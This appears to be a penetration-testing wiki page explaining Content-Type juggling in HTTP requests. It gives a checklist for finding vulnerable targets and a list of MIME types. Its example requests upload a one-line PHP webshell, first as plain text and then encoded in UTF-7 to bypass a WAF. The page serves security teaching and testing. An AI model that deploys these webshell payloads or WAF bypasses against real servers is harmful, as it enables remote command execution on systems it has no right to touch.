


# Content-Type juggling

## Theory

**Content-Type juggling** exploits the lack of checking on the `Content-Type` header when submitting an HTTP request.

Most of the time, Content-Type juggling is a way to carry out other attacks such as [unrestricted-file-upload](../../web/inputs/file-inclusion/lfi-to-rce/file-upload.md) or [xxe-injection](content-type-juggling.md#example-of-a-content-type-juggling-attack-on-api-leading-to-xxe) (see [examples](content-type-juggling.md#examples)).


The `Content-Type` header is used to indicate the MIME type of the resource.

* In requests, (such as `POST` or `PUT`), the client tells the server what type of data was actually sent.
* In responses, a `Content-Type` header tells the client what type of content is actually being returned. Browsers may try to detect the MIME type of content by inspecting it rather than by respecting the value of this header.



If the [XCTO (X-Content-Type-Options)](../../web/config/http-headers/#xcto-x-content-type-options) security header is present, it will be difficult to perform the `Content-Type` juggling, as indicated in [mime-sniffing](../../web/config/http-headers/mime-sniffing.md). The XCTO security header can be used to indicate that the MIME types advertised in the `Content-Type` headers should be followed and not be changed by the browser depending on the page's content. Websites that implement this security header with the `nosniff` directive must also include a valid `Content-Type` header in their responses.


## Practice

### Identify a target vulnerable to Content-Type juggling

In order to identify if the target is vulnerable to `Content-Type` juggling, testers need to answer the following questions :

* Is there a post request with value(s) and `Content-Type` header ?
* Is the `X-Content-Type-Options` security header **not** present ?
* Can the `Content-Type` header  be edited, and the `POST` request still be submitted successfully ?

If the answer is yes to the questions above, then one should be able to perform `Content-Type` juggling and might find a way to perform other attacks as a result:

* If one can switch to `application/xml`,  [XXE](xxe-injection.md) should be tried.
* If one can switch to `application/zip`, uploading malicious zip file should be tried.
* If one can switch to `application/php`, uploading PHP payloads should be tried.
* If one can switch to `application/image`, uploading [malicious image](https://www.synacktiv.com/publications/persistent-php-payloads-in-pngs-how-to-inject-php-code-in-an-image-and-keep-it-there.html) should be tried.

**One should not stick to this list and always try several Content-Type values.**

<details>

<summary>List of the most common Content-Type values</summary>


```
application/java-archive
application/EDI-X12
application/EDIFACT
application/javascript
application/octet-stream
application/ogg
application/pdf
application/xhtml+xml
application/x-shockwave-flash
application/json
application/ld+json
application/xml
application/zip
application/x-www-form-urlencoded
```



```
audio/mpeg
audio/x-ms-wma
audio/vnd.rn-realaudio
audio/x-wav
```



```
image/gif
image/jpeg
image/png
image/tiff
image/vnd.microsoft.icon
image/x-icon
image/vnd.djvu
image/svg+xml
```



```
multipart/mixed
multipart/alternative
multipart/related (using by MHTML (HTML mail).)
multipart/form-data
```



```
text/css
text/csv
text/html
text/javascript (obsolete)
text/plain
text/xml
```



```
video/mpeg
video/mp4
video/quicktime
video/x-ms-wmv
video/x-msvideo
video/x-flv
video/webm
```



```
application/vnd.android.package-archive
application/vnd.oasis.opendocument.text
application/vnd.oasis.opendocument.spreadsheet
application/vnd.oasis.opendocument.presentation
application/vnd.oasis.opendocument.graphics
application/vnd.ms-excel
application/vnd.openxmlformats-officedocument.spreadsheetml.sheet
application/vnd.ms-powerpoint
application/vnd.openxmlformats-officedocument.presentationml.presentation
application/msword
application/vnd.openxmlformats-officedocument.wordprocessingml.document
application/vnd.mozilla.xul+xml
```


</details>

### Example attacks

<details>

<summary>PHP payload upload and RCE</summary>

Let's take this POST request following the submit of a form. Two `Content-Type` headers can be seen, the second one is interesting since an attacker could be juggling the content-type to upload a malicious PHP file.

```
POST /foo HTTP/1.1
[....request...]
-----------------------------974767299852498929531610575
Content-Disposition: form-data; name="myFile"; filename="foo.txt"
Content-Type: text/plain

(content of the uploaded file foo.txt)
-----------------------------974767299852498929531610575--
```

The attacker is able to upload a PHP webshell thanks to the Content-Type juggling, changing it from `text/plain` to `application/php`

```
POST /foo HTTP/1.1
[....request...]
-----------------------------974767299852498929531610575
Content-Disposition: form-data; name="myFile"; filename="foo.php"
Content-Type: application/php

 <?php system($_GET["cmd"]); ?>
-----------------------------974767299852498929531610575--
```

</details>

<details>

<summary>Bypass a WAF</summary>

Sometimes, the `Content-Type` header has an additional field: `charset=<value>`.

```
Content-Type: text/html; charset=utf-8
```

In this context, an attacker can try to edit the charset (e.g. from `utf-8` to `utf-7`) to bypass security controls such as Web Application Firewalls (WAFs), or regular expressions that check the value of a form. This technique cannot bypass the impact of the XCTO security header though (see the [Theory](content-type-juggling.md#theory) part).

Below is an example where an attacker is able to perform Content-Type juggling but is getting blocked by a WAF. To bypass it, "**charset juggling**" can be performed.


```
POST /foo HTTP/1.1
Content-Type: application/php; charset=utf-8
Content-Length: 19

<?php system($_GET["cmd"]); ?>
```



```
POST /foo HTTP/1.1
Content-Type: application/php; charset=utf-7
Content-Length: 19

+ADw-?php system(+ACQAXw-GET+AFsAIg-cmd+ACIAXQ-)+ADs- ?+AD4-
```


</details>

<details>

<summary>API attack, leading to XXE</summary>

In the following request, the application normally sends JSON content (`Content-Type: application/json`).&#x20;

If the target is vulnerable to Content-Type juggling and XXE, an attacker could attempt to modify the content-type header to `application/xml` and put some malicious XML to exploit an XXE.&#x20;



By combining Content-Type juggling with another attack, it's possible to extract information from the target (more about it in [XXE injection](xxe-injection.md)).



For more insight on this attack, refer to [the writeup of the web challenge "BNV" from Google CTF 2019](https://medium.com/hmif-itb/googlectf-2019-web-bnv-writeup-nicholas-rianto-putra-medium-b8e2d86d78b2), by [Nicholaz99](https://github.com/Nicholaz99).

</details>

## Resources




Content-Type from JSON to XEE



WAF and protections bypasses



